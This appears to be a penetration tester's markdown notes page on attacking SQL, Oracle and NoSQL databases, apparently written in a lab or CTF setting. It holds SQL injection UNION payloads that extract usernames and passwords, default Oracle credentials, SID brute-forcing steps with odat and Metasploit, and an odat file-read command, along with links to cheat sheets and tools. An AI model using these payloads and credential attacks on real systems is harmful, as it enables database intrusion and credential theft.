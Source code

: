 # Databases (SQL / NoSQL)

# SQL


## SQL injection cheat sheets
- [https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


## SQL injection UNION attack

### Steps
```
"test' union select 'table',database(),'C'-- "
"test' union select 'table',username, password from db.table -- -"
```

### Articles to reproduce the attack
- [https://pentest-tools.com/blog/sql-injection-attacks](https://pentest-tools.com/blog/sql-injection-attacks)
- [https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635)
​​
​
## MySQL user defined functions
[​​https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf](​​https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

​
## Oracle / ODAT
Use [this](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) link as a reference for the steps described below    
[https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)    

### Basic creds 
``` 
Username --> Scott 
Password --> tiger
```

*Steps*    
1. Use: `odat` and its `sidguesser` to bruteforce with a link provided
2. Spin up metasploit and use auxiliary(admin/oracle/sid_brute)
3. Use sqlplus to login with the creds or
    1. Read file with odat as such:    `odat ctxsys -s 10.10.10.14 -d XE -U SCOTT -P tiger --sysdba --getFile flag.txt`


# NoSQL
NoSQL injection knowledge base
A well curated list of tools and injection methods to use on NoSQL databases by ​[swisskyrepo](https://github.com/swisskyrepo)
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

​​
## NoSQLMap
[https://github.com/codingo/NoSQLMap](https://github.com/codingo/NoSQLMap)
​​